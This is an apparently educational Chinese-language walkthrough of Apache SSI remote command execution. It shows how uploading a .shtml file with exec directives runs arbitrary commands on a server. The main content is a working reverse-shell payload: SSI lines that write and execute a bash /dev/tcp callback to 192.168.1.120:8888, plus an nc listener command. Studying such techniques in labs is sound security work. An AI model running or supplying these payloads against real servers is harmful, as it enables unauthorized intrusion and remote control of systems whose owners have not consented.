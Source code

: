 # Apache SSI远程命令执行漏洞

**原理：测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件，如果目标服务器开启了SSI和CGI支持，我们可以上传应该shtml类型文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令，或反弹shell**



访问目标网站.

![image-20210510175042917](https://img-blog.csdnimg.cn/img_convert/150573811ad774116207e535322102a3.png)

准备一个shtml内容文件

内容如下：![image-20210510173217142](https://img-blog.csdnimg.cn/img_convert/01727f97389c5448b7c6bf5559e960f9.png)

上传该文件

![image-20210510173300496](https://img-blog.csdnimg.cn/img_convert/db461ad46fddbdcc4470f624346448ca.png)

![img](https://img-blog.csdnimg.cn/img_convert/53319c9a8d4ca9e2a8325871430d4622.png)



文件上传成功，点击该超链接

![image-20210510173336927](https://img-blog.csdnimg.cn/img_convert/769b6d8b0cbde61332e5284e95cce7aa.png)

可以看到命令被执行了



**反弹shell**

准备一个带有shell的shtml文件，内容如下

```
<!--#exec cmd="echo 'bash -i >& /dev/tcp/192.168.1.120/8888 0>&1' > /var/www/html/shell.sh"-->
# 在/var/www/html/目录下创建一个反弹shell命令的shell.sh文件

<!--#exec cmd="chmod +x /var/www/html/shell.sh"-->
# 赋予该文件以执行权限

<!--#exec cmd="/bin/bash /var/www/html/shell.sh"-->
# 执行该文件
```

上传该文件：

![image-20210510182320029](https://img-blog.csdnimg.cn/img_convert/ff883aa255eec5f0edb9964e407f5b44.png)



在kali中监听端口

nc -lvvp 8888

![image-20220417183611924](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220417183611924.png)



点击超链接，等待shell反弹：

![image-20220417183650217](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220417183650217.png)



可以看到反弹shell成功，命令也成功执行了



















